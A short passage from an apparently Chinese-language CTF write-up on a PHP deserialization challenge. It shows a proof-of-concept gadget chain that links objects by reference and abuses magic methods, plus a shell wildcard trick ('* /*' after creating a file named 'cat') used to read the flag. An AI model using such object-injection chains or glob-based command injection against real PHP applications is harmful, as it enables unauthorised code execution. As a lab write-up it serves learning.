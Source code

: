 ```php
    }

}

class Test
{
    public $value;
    public function __wakeup()
    {
        $this->value = "Don't make dream.Wake up plz!";
    }
    public function __destruct()
    {
        echo $this->value;
    }
}

$_SESSION['username'] = '* /*';

$test = new Test();
$user = new User();
$user->a = $test;
$user->username = &$test->value;
unserialize(serialize($user));
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210281827223.png)

wp 中通过 `* /*` 查看 flag, `*` 会依照顺序将当前目录下的某个文件作为命令来执行, 并将剩余文件名作为参数 (参考 n 字节限制下的命令执行)

执行之前创建了 cat 文件, 这一步的利用方法就不写了, 就是通过 User 类的 \_\_wakeup 或者 \_\_destruct 来触发 Test 类的 \_\_toString 方法

[官方 writeup](https://pan.baidu.com/s/1WpKBYZ5kAYPbdSapciDk_Q?pwd=DAS1)
